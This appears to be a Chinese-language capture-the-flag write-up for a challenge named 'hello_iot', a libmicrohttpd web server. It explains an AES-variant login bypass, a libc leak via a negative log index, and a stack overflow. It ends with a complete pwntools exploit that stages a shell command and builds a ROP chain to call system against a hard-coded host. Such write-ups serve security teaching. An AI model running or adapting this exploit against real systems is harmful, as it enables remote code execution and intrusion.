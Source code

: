 # hello_iot

> 这个IoT站点的鉴权似乎比较严格

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.18|

## 解题思路

看似IoT，实则并非。一个基于 *libmicrohttpd* 的amd64程序，进入`main`函数可以看到使用
*libmicrohttpd* 提供的函数注册HTTP请求处理回调函数，里面是主要逻辑。

如果用户没有登录，则只能访问`login.html`以及`login`接口，
通过验证后可以访问`log`和`work`接口。其中`work`接口能通过POST记录一些数据，
如果数据中存在`YCB2025`，则输入大量数据还可以触发栈溢出。
使用`log`接口则能访问到记录进去的数据，如果是负数，则能向低地址访问到GOT表，
从而泄露libc。

最难的反而是怎样登录。在`/login.html`中可以找到临时生成的`KEY`，接着在`login`接口中会做验证。
我们需要使用POST上传十六进制编码的`ciphertext`，经过处理后要和`KEY`相等。
看起来是某种加密算法，虽然经过编译后某些特征不太明显，但是还是能看出这个算法
**解密需要10轮，每块16字节，有rcon数组以及两个S盒**。那么这个算法应该就是aes换S盒了。
让AI生成一个aes加密的算法，然后把里面的S盒换掉，就能加密明文了。

![rcon and sbox](assets/rcon_sbox.png)

那么思路就很清晰了，先使用`/login.html`获取`KEY`，然后将`KEY`加密后用来登录`/login`，
再使用`/work`预存一条shell指令，接着使用`/log`接口泄露libc和预存指令的地址，
最后使用`/work`打栈溢出，调用`system`执行预存的指令。

由于起的方式是microhttpd，因此不能直接调用`system("/bin/sh")`，因为标准输入输出都没有连接到socket上。
使用重定向好像也不行，从头构造一个MHD请求也很麻烦。最后选择将文件写入到当前目录下（如`work.html`），
随后再发一条请求获取文件内容即可。

## EXPLOIT

```python
from pwn import *
from aes import aes_encrypt_block
import re
import sys
import requests

context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
IP = '45.40.247.139'
PORT = 25642
URL_BASE = f'http://{IP}:{PORT}'
LIBC = './libc-2.31.so'

# Get decrypted key
response = requests.get(f'{URL_BASE}/login.html')
match = re.search(r'<strong>([a-z]+)</strong>', response.text)
assert match
rand_key = match.group(1)
info(f'Retrieve random key: {rand_key}')

# Encrypt the key
cipher = aes_encrypt_block(rand_key.encode(), b'0123456789ABCDEF').hex()
info(f'Try this cipher: {cipher}')

# Login the system
response = requests.post(f'{URL_BASE}/login', data=f'ciphertext={cipher}')
assert response.status_code == 200

# Now test if the key is right and leak libc
response = requests.post(f'{URL_BASE}/log', data='index=-173')
if response.status_code == 401:
    warn('Unable to log in!')
    sys.exit(1)
assert response.status_code == 200
match = re.search(r'<pre>(0x[a-f0-9]+)</pre>', response.text)
assert match

libc = ELF(LIBC)
libc_base = int(match.group(1), 16) - libc.symbols['malloc']
success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
libc.address = libc_base

if len(sys.argv) > 1 and sys.argv[1] == 'next':
    # next stage: print flag in work.html
    response = requests.get(f'{URL_BASE}/work.html')
    assert 'DASCTF' in response.text
    success(f'Flag is: {response.text}')
    sys.exit(0)

# Before attack, draft a RCE command first
cmd = 'cat /flag > work.html;'
response = requests.post(f'{URL_BASE}/work', data=f'data={cmd}\r\n')
match = re.search(r'Total=(\d+)', response.text)
assert match
slot = int(match.group(1)) - 1
info(f'Hijack httpd to run {cmd} at slot {slot}')

# Then fetch its address
response = requests.post(f'{URL_BASE}/log', data=f'index={slot}')
match = re.search(r'0x[a-f0-9]+', response.text)
assert match
rce = int(match.group(0), 16)
success(GOLD_TEXT(f'Found RCE command on {rce:#x}'))

# Construct a payload to perform ROP
gadgets = ROP(libc)
chain = flat(gadgets.rdi.address, rce,
             gadgets.ret.address, # balance stack
             libc.symbols['system'],
             gadgets.rdi.address, 0,
             libc.symbols['exit'])

# Finally trigger the ROP
t = remote(IP, PORT)
payload = b'data=' + pack(0, 0x48 * 8) + chain + b'YCB2025\n\n'
body = f'''POST /work HTTP/1.0\r
Host: {IP}:{PORT}\r
Content-Length: {len(payload)}\r
\r
'''.encode()
t.send(body + payload)
t.close()
```

![flag](assets/iot_flag.png)
